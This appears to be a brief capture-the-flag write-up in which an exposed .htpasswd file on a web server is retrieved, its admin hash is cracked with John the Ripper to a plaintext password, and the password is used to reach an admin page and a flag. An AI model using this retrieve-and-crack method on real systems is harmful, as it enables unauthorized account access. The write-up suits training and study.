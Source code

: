 # Protected Directory

### Tags: web, john

http://167.71.246.232/.htpasswd/

htpasswd
```admin:$apr1$1U8G15kK$tr9xPqBn68moYoH4atbg20```

## John The Ripper
```
john htpasswd
admin:alesh16
 ```
http://167.71.246.232/admin/

```flag{cracked_the_password} ```
